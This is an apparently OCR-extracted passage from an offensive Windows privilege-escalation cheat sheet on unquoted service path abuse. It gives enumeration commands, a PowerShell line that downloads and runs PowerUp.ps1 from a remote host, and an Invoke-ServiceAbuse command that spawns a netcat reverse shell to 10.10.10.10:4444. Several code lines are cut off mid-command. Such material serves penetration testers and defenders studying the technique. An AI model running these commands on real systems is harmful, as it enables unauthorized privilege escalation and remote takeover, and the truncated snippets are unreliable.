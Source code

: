 **Alternatively you can explore the WSL filesystem in the folder**

```
C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_
```

9rhkp1fndgsc\LocalState\rootfs\\

### EoP - Unquoted Service Paths

**The Microsoft Windows Unquoted Service Path Enumeration Vulnerability. All Windows services**

**have a Path to its executable. If that path is unquoted and contains whitespace or other**

**separators, then the service will attempt to access a resource in the parent path first.**

**Metasploit exploit : exploit/windows/local/trusted\_service\_path**

**PowerUp exploit**

#### Example

**For C:\Program Files\something\legit.exe, Windows will try the following paths first:**

```
C:\Program.exe
C:\Program Files.exe
```

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v
```

```
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\
```

```
gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {
```

```
# find the vulnerable application
C:\> powershell.exe -nop -exec bypass "IEX (New-Object Net.WebClient).DownloadString('https://xyz/PowerUp.ps1'); Invoke-AllChecks"
```

```
...
[*] Checking for unquoted service paths...
ServiceName : BBSvc
Path : C:\Program Files\Microsoft\Bing Bar\7.1\BBSvc.exe
StartName : LocalSystem
AbuseFunction : Write-ServiceBinary -ServiceName 'BBSvc' -Path <HijackPath>
...
```

```
# automatic exploit
Invoke-ServiceAbuse -Name [SERVICE_NAME] -Command "..\..\Users\Public\nc.exe 10.10.10.10 4444 -e cmd.exe"
```

